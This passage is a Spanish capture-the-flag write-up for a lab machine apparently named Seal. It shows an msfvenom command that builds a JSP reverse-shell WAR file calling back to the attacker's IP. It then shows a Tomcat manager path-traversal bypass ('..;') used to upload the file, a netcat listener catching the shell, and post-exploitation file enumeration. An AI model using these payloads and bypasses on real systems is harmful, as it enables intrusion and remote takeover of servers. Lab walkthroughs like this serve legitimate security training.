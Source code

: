 ```bash
# msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.16.7 lport=443 -f war > setenso.war                                                                                                                35 ⨯ 1 ⚙
Payload size: 1083 bytes
Final size of war file: 1083 bytes
```
Una vez tenemos el archivo creado, vamos a intentar subirlo. Nos vamos a donde pone `WAR file to deploy` y procedemos a intentar subir el archivo
```bash
https://10.10.10.250/manager/html/upload;jsessionid=30996A6436CBB5E16EE0296121D0CCA8?org.apache.catalina.filters.CSRF_NONCE=B68A395DF24E8D8C6E14811F6E50C638
403 FORBIDDEN
```
Vale vemos que tenemos un problema porque la url como veiamos no nos funciona correctamente `/manager/html/upload` en esta seccion. Nos abrimos burpsuite para cambiar esta parte
a `manager/status/..;/html/upload` y subir el archivo correctamente.
```bash
POST /manager/status/..;/html/upload;jsessionid=30996A6436CBB5E16EE0296121D0CCA8?org.apache.catalina.filters.CSRF_NONCE=B68A395DF24E8D8C6E14811F6E50C638 HTTP/1.1
```
Lo conseguimos subir correctamente. Procedo a ponerme una session con `nc -vlnp 443` a la escucha para recibir la conexion entrante.
```bash
# nc -vlnp 443                                                                                                                                                                                               2 ⚙
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.250] 56870
whoami
tomcat
```
Procedemos a realizar el tratamiento de la shell como siempre.
Procedemos a enumerar el sistema en busca de la flag.
```bash
tomcat@seal:/home/luis$ cat user.txt 
cat: user.txt: Permission denied
```
Vemos que tenemos que saltar del user tomcat al user Luis.
```bash
tomcat@seal:/home/luis$ find / -group luis -type f 2>/dev/null
/opt/backups/archives/backup-2021-11-14-10:56:33.gz
/opt/backups/archives/backup-2021-11-14-10:55:33.gz
/opt/backups/playbook/run.ym
```
Enumerando encontramos en la ruta `/opt/backups/` archivos que pertenecen al user Luis, se pone interesante.
